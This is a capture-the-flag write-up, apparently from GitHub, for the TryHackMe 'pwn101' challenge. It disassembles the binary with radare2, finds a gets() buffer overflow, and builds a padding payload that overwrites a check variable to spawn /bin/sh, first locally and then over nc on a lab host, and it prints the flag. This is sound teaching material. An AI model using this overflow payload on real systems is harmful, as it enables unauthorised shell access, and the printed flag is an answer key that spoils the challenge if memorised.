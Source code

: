 # pwn101

- [Binary Analysis](#binary-analysis)
- [Local Exploitation](#local-exploitation)
- [Remote Exploitation](#remote-exploitation)

```text

This should give you a start: 'AAAAAAAAAAA'

Challenge is running on port 9001

```

## Binary Analysis

```bash
$ ls
pwn101

$ file pwn101 
pwn101: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dd42eee3cfdffb116dfdaa750dbe4cc8af68cf43, not stripped

$ checksec --file=pwn101
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

The *radare2* tool is used to further analyze the track.

`radare2`
```text
[0x00000710]> afl
0x000006b0    1      6 sym.imp.puts
0x000006c0    1      6 sym.imp.system
0x000006d0    1      6 sym.imp.gets
0x000006e0    1      6 sym.imp.setvbuf
0x000006f0    1      6 sym.imp.exit
0x00000700    1      6 sym.imp.__cxa_finalize
0x00000710    1     42 entry0
0x00000740    4     40 sym.deregister_tm_clones
0x00000780    4     57 sym.register_tm_clones
0x000007d0    5     51 entry.fini0
0x00000810    1     10 entry.init0
0x00000990    1      2 sym.__libc_csu_fini
0x00000994    1      9 sym._fini
0x0000087b    1     19 sym.banner
0x00000920    4    101 sym.__libc_csu_init
0x0000088e    3    134 main
0x0000081a    1     97 sym.setup
0x00000688    3     23 sym._init
```

Among the symbols, the *main* function is identified.

We proceed with the inspection of the disassembled code of the *main* function.

`main`
```text
[0x00000710]> s main 
[0x0000088e]> pdf
            ; ICOD XREF from entry0 @ 0x72d(r)
┌ 134: int main (int argc, char **argv, char **envp);
│ afv: vars(2:sp[0xc..0x48])
│           0x0000088e      55             push rbp
│           0x0000088f      4889e5         mov rbp, rsp
│           0x00000892      4883ec40       sub rsp, 0x40
│           0x00000896      c745fc3905..   mov dword [var_4h], 0x539
│           0x0000089d      b800000000     mov eax, 0
│           0x000008a2      e873ffffff     call sym.setup
│           0x000008a7      b800000000     mov eax, 0
│           0x000008ac      e8caffffff     call sym.banner
│           0x000008b1      488d3d0802..   lea rdi, str.Hello___I_am_going_to_shopping._nMy_mom_told_me_to_buy_some_ingredients._nUmmm.._But_I_have_low_memory_capacity__So_I_forgot_most_of_them._nAnyway__she_is_preparing_Briyani_for_lunch__Can_you_help_me_to_buy_those_items_:D_n ; 0xac0 ; "Hello!, I am going to shopping.\nMy mom told me to buy some ingredients.\nUmmm.. But I have low memory capacity, So I forgot most of them.\nAnyway, she is preparing Briyani for lunch, Can you help me to buy those items :D\n" ; const char *s
│           0x000008b8      e8f3fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x000008bd      488d3ddc02..   lea rdi, str.Type_the_required_ingredients_to_make_briyani: ; 0xba0 ; "Type the required ingredients to make briyani: " ; const char *s
│           0x000008c4      e8e7fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x000008c9      488d45c0       lea rax, [s]
│           0x000008cd      4889c7         mov rdi, rax                ; char *s
│           0x000008d0      b800000000     mov eax, 0
│           0x000008d5      e8f6fdffff     call sym.imp.gets           ; char *gets(char *s)
│           0x000008da      817dfc3905..   cmp dword [var_4h], 0x539
│       ┌─< 0x000008e1      7516           jne 0x8f9
│       │   0x000008e3      488d3de602..   lea rdi, str.Nah_bruh__you_lied_me_:__nShe_did_Tomato_rice_instead_of_briyani_:_ ; 0xbd0 ; "Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/" ; const char *s
│       │   0x000008ea      e8c1fdffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x000008ef      bf39050000     mov edi, 0x539              ; int status
│       │   0x000008f4      e8f7fdffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from main @ 0x8e1(x)
│       └─> 0x000008f9      488d3d1803..   lea rdi, str.Thanks__Heres_a_small_gift_for_you__3 ; 0xc18 ; "Thanks, Here's a small gift for you <3" ; const char *s
│           0x00000900      e8abfdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00000905      488d3d3303..   lea rdi, str._bin_sh        ; 0xc3f ; "/bin/sh" ; const char *string
│           0x0000090c      e8affdffff     call sym.imp.system         ; int system(const char *string)
│           0x00000911      90             nop
│           0x00000912      c9             leave
└           0x00000913      c3             ret

[0x0000088e]> afv
var uint32_t var_4h @ rbp-0x4
var char * s @ rbp-0x40
```

The code has a **Buffer Overflow Vulnerability** in the call to the `gets` function, which allocates user input starting from `char * s @ rbp-0x40`.

The *BOF vulnerability* is exploited to overwrite the local variable `uint32_t var_4h @ rbp-0x4` and pass the check to execute the `system("/bin/sh")`.

Payload:

- **padding**, size=(0x40-0x4)=60 bytes to fill the buffer `var char * s @ rbp-0x40`.
- **value**, size=4 bytes to overwrite the value `var uint32_t var_4h @ rbp-0x4`.

## Local Exploitation

Let's create the payload.

```bash
$ python3 -c 'print("A"*60 + "1234")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1234
```

The exploit is run locally.

```bash
$ ./pwn101 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1234
Thanks, Here's a small gift for you <3
$ whoami
ap
$ 

```

Works!

## Remote Exploitation

The exploit is performed remotely by sending the previously constructed payload.

```bash
$ nc 10.10.34.41 9001
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1234
Thanks, Here's a small gift for you <3
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt 
THM{7h4t's_4n_3zy_oveRflowwwww}
^C

```

Flag captured.

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
